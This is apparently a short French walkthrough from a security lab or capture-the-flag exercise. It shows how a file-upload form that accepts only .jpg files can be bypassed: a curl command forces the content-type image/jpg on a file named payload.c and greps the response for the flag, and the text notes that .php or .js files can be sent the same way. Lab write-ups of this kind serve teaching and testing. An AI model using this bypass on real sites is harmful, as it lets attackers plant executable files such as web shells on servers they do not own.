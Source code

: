 Upload File
-----------


Seul les fichiers .jpg son accepté, il est possible via une commande CURL d'indiqué manuellement/forcer le content-type d'un fichier envoyé.

ManCurl:
https://curl.se/docs/manpage.html#-F

Changing content type of a file in a FormData request with cURL:
https://ryanseddon.com/hacking/content-type-formdata-curl/


curl -X POST -F "Upload=Upload" --form "uploaded=@/mnt/nfs/homes/jereligi/Pictures/Screenshots/payload.c;type=image/jpg"  http://192.168.56.102/\?page\=upload\# | grep flag

On peut donc envoyer n'importe quel fichier (.c, .js, .php...) et indiquer qu'il s'agit d'un fichier .jpg.

